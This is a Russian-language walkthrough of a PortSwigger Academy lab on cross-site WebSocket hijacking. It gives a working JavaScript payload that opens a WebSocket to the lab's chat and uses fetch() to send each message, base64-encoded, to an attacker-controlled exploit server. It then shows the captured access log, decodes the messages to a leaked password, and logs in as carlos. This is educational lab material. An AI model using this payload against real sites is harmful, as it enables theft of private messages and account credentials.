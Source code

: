 откроем уязвимый ресурс

перейдем на вкладку `Live chat`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/1.png)

Полное взаимодействие атаки будет выглядеть следующим образом - 
`https://www.youtube.com/watch?v=U_z2OCAkoLk`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/3.png)

Найдем в `Proxy` -> `HTTP history` `GET - запрос`, инициирующий соединение с сервером
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/2.png)

Перейдем в `Exploit server `

и сконфигурироуем данный `payload`
```
<script>
    var ws = new WebSocket('wss://0a25008e048f15a0814ef770009e005a.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch("https://exploit-0a8800d804ac15dd8195f6e901c7001a.exploit-server.net/exploit?message=" +btoa(event.data));
    };
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/4.png)


Нажмем `Store` - > `Deliver exploit to victim`
и перейдем в `Access log`

и увидим следующие строки
```
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6IkhlbGxvLCBob3cgY2FuIEkgaGVscD8ifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IkkgZm9yZ290IG15IHBhc3N3b3JkIn0= HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiSGFsIFBsaW5lIiwiY29udGVudCI6Ik5vIHByb2JsZW0gY2FybG9zLCBpdCZhcG9zO3MgM2phZ3F0a3R4cW5oOWtkNGlvNnoifQ== HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiWW91IiwiY29udGVudCI6IlRoYW5rcywgSSBob3BlIHRoaXMgZG9lc24mYXBvczt0IGNvbWUgYmFjayB0byBiaXRlIG1lISJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
10.0.4.21       2024-05-10 16:24:49 +0000 "GET /exploit?message=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/5.png)

Декодировав, получим сообщения
```
{"user":"Hal Pline","content":"Hello, how can I help?"}

{"user":"You","content":"I forgot my password"}

{"user":"Hal Pline","content":"No problem carlos, it&apos;s 3jagqtktxqnh9kd4io6z"}

{"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"}

{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/6.png)

Зайдем под кредами 
```
carlos:3jagqtktxqnh9kd4io6z
```
и получим сообщение об успешно выполненной лабораторной работе

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/18.%20WebSockets/3.%20Cross-site%20WebSocket%20hijacking/pics%20for%20walkthrough/7.png)
